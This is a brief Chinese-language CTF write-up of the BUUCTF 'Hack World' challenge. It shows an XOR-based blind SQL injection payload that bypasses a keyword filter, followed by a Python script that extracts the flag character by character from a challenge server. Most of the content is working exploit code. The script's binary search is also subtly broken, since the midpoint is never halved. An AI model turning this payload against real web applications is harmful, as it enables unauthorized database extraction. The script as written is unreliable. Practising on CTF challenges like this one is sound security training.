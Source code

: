 ### 例题

#### BUUCTF WEB [CISCN2019 华北赛区 Day2 Web1]Hack World(SQL盲注，PHP）

*   题目描述:
    ![在这里插入图片描述](img/5bda924b5188393224b1204fb0ba1124.png)
*   已知表名和列名，并且发现过滤了很多sql字符，尝试注入

```
1^(ascii(substr((select(flag)from(flag)),1,1))>1)^1 
```

奉上大佬脚本

```
import requests
import time

url = "http://f0c8caf0-fc27-454e-83bc-a557d1891b94.node3.buuoj.cn/index.php"
temp = {"id" : ""}
flag = ""
for i in range(1,1000):
    time.sleep(0.06)
    low = 32
    high =128
    mid = (low+high)
    while(low<high):
        temp["id"] = "1^" + "(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
        r = requests.post(url,data=temp)
        print(low,high,mid,":")
        if "Hello" in r.text:
            low = mid+1
        else:
            high = mid
        mid =(low+high)
    if(mid ==32 or mid ==127):
        break
    flag +=chr(mid)
    print(flag)

print("flag=" ,flag) 
```
